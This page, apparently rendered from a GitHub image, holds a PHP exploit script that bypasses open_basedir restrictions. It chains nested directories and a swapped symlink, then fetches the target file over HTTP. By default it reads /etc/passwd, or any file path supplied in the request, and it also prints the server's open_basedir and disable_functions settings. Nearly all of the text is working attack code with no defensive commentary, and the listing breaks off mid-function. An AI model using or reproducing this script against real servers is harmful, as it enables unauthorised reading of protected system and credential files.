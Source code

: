 ```php
<?php
/* * by phithon * From https://www.leavesongs.com * detail: http://cxsecurity.com/issue/WLB-2009110068 */
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
```